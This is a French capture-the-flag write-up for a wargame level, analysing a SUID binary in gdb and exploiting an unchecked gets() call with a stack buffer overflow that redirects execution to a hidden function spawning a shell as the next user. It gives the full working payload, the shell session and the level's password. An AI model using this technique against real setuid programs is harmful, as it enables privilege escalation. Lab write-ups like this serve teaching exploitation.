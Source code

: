 ## Analyse

- `ls -la`
  ```
  [...]
    -rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
  [...]
  ```
    - On a un binaire appartenant a level2 dans le home avec les droits SUID.

- `./level1`
  ```
    
  ```
  - Le programme attend un input
    - `test`
      - rien

- `gdb level1`
  - `set disassembly-flavor intel`
  - `info function`
    ```asm
    [...]
      0x08048444  run
      0x08048480  main
    [...]
    ```
    - On trouve une fonction run en plus du main
  - `disas main`
    ```asm
    Dump of assembler code for function main:
       0x08048480 <+0>:	push   ebp
       0x08048481 <+1>:	mov    ebp,esp
       0x08048483 <+3>:	and    esp,0xfffffff0
       0x08048486 <+6>:	sub    esp,0x50
       0x08048489 <+9>:	lea    eax,[esp+0x10]
       0x0804848d <+13>:	mov    DWORD PTR [esp],eax
       0x08048490 <+16>:	call   0x8048340 <gets@plt>
       0x08048495 <+21>:	leave
       0x08048496 <+22>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+6>
      - Initialisation de la mémoire (libère 80 octets pour la stack et aligne la mémoire)<br/><br/>
    - <+9> ... <+16>
      - Stocke l'adresse de esp + 16 dans eax
      - Stocke la valeur de eax (l'adresse de esp + 16) dans la stack (à esp)
      - Call gets() avec le paramètre stocké dans la stack<br/><br/>
    - <+21> ... <+22>
      - réinitialisation de la mémoire, fin d'exécution<br/><br/>
    - Le call a gets() n'est pas protégé par une condition
    - La fonction run n'est pas appelée
    
  - `disas run`
    ```asm
    Dump of assembler code for function run:
       0x08048444 <+0>:	push   ebp
       0x08048445 <+1>:	mov    ebp,esp
       0x08048447 <+3>:	sub    esp,0x18
       0x0804844a <+6>:	mov    eax,ds:0x80497c0
       0x0804844f <+11>:	mov    edx,eax
       0x08048451 <+13>:	mov    eax,0x8048570
       0x08048456 <+18>:	mov    DWORD PTR [esp+0xc],edx
       0x0804845a <+22>:	mov    DWORD PTR [esp+0x8],0x13
       0x08048462 <+30>:	mov    DWORD PTR [esp+0x4],0x1
       0x0804846a <+38>:	mov    DWORD PTR [esp],eax
       0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
       0x08048472 <+46>:	mov    DWORD PTR [esp],0x8048584
       0x08048479 <+53>:	call   0x8048360 <system@plt>
       0x0804847e <+58>:	leave
       0x0804847f <+59>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire (libère 24 octets pour la stack et aligne la mémoire)<br/><br/>
    - <+6> ... <+41>
      - Stocke la valeur du registre data segment 0x80497c0 dans eax, puis dans edx
        - `x/s 0x80497c0`
          - `0x80497c0 <stdout@@GLIBC_2.0>:	 ""`
      - Stocke la valeur de 0x8048570 dans eax
        - `x/s 0x8048570`
          - `0x8048570:	 "Good... Wait what?\n"`
      - Stocke la valeur de edx (stdout) sur la stack (à esp + 12)
      - Stocke 0x13 (19) sur la stack (à esp + 8)
      - Stocke 0x1 (1) sur la stack (à esp + 4)
      - Stocke la valeur de sur dans la stack (à esp)
      - Call fwrite() avec les arguments stockés sur la stack<br/><br/>
    - <+46> ... <+53>
      - Stocke la valeur de 0x8048584 sur la stack (à esp)
        - `x/s 0x8048584`
          - `0x8048584:	 "/bin/sh"`
      - Call system() avec l'argument stocké sur la stack<br/><br/>
    - <+58> ... <+59>
      - Réinitialisation de la mémoire, fin d'exécution<br/><br/>
    - La fonction run affiche "Good... Wait what?\n" sur la sortie standard et lance un shell via la commande system()

## Exploit

L'objectif va être de forcer l'appel de la fonction run() par la fonction main() pour avoir notre shell en tant que level2.
On va tirer avantage de la [vulnérabilité de gets à un buffer overflow](https://faq.cprogramming.com/cgi-bin/smartfaq.cgi?answer=1049157810&id=1043284351) pour écrire l'adresse de run dans l'EIP, puisqu'il n'est pas protégé.
<br/><br/>Comme vu plus haut, main alloue 80 octets dans la stack pour ses variables, on va commencer par là:
  - `python -c 'print "a" * 80' > /tmp/exploit`
  - `gdb level1`
    - `run < /tmp/exploit`
      ```
      Starting program: /home/user/level1/level1 < /tmp/exploit

      Program received signal SIGSEGV, Segmentation fault.
      0x61616161 in ?? ()
      ```
      - Nice, on SegFault comme attendu et l'eip est réécrit avec des a: `0x61616161`

On devrait pouvoir écraser la valeur de l'eip avec les 4 derniers octets, on vérifie avec un exploit de 76 "a" et 4 "b" :
- `python -c 'print "a" * 76 + "b" * 4' > /tmp/exploit`
  ```
  Starting program: /home/user/level1/level1 < /tmp/exploit

  Program received signal SIGSEGV, Segmentation fault.
  0x62626262 in ?? ()
  ```
  - Parfait, l'EIP est écrasé par les 4 derniers octets: `0x62626262`
On a vu lors de l'analyse que l'adresse de la fonction run() est 0x08048444, on la passe en [little endian](https://security.stackexchange.com/questions/177819/why-do-we-use-little-endian-in-buffer-overflow-attacks) avant de la load à la fin de notre exploit:
- `python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/exploit`
- `cat /tmp/exploit | ./level1`
  ```
  Good... Wait what?
  Segmentation fault (core dumped)
  ```
  - Ok, on lance bien la fonction run(), mais le shell est fermé tout de suite, il faut [garder stdin ouvert avec cat](https://unix.stackexchange.com/questions/203012/why-cant-i-open-a-shell-from-a-pipelined-process):
      > " The shell doesn't have any input, when it detects EOF it dies. " 
      - `cat /tmp/exploit - | ./level1`
        ```
        Good... Wait what?
        
        ```
        - `whoami`
          ```
          level2
          ```
        - `cat /home/user/level2/.pass`
          ```
          53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
          ```
